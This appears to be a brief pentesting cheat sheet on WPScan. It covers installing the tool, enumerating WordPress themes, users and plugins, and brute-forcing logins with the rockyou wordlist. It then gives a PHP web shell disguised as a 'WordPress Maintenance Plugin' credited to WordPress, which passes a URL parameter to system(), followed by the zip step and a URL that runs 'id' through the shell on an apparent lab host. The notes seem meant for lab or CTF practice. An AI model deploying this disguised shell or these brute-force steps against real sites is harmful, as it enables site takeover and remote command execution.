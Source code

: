 # WPscan

**Install**

```bash
sudo apt update && sudo apt install wpscan
wpscan --update

```

**Enumeration** 

```bash
wpscan --url http://www.anywordpressintalledsite.com/ --enumerate t
wpscan --url http://www.anywordpressintalledsite.com/ --enumerate u
wpscan --url http://www.anywordpressintalledsite.com/ --enumerate vp
wpscan --url http://www.anywordpressintalledsite.com/ –-passwords rockyou.txt –-usernames Phreakazoid
wpscan --url  http://10.129.96.68 --plugins-version-detection aggressive -e ap
```

**Plugin cmd**

```c
<?php
/*
Plugin Name: WordPress Maintanance Plugin
Plugin URI: wordpress.org
Description: WordPress Maintenance Activities
Author: WordPress
Version: 1.0
Author URI: wordpress.org
*/
system($_GET["cmd"]);
?>
```

`zip wp-maintenance.zip wp-maintenance.php`

![Untitled](WPscan%2042a688b55bf54093b1094f0c82eeff22/Untitled.png)

`http://10.10.10.90/main/wp-content/plugins/wp-maintenance/wp-maintenance.php?cmd=id`
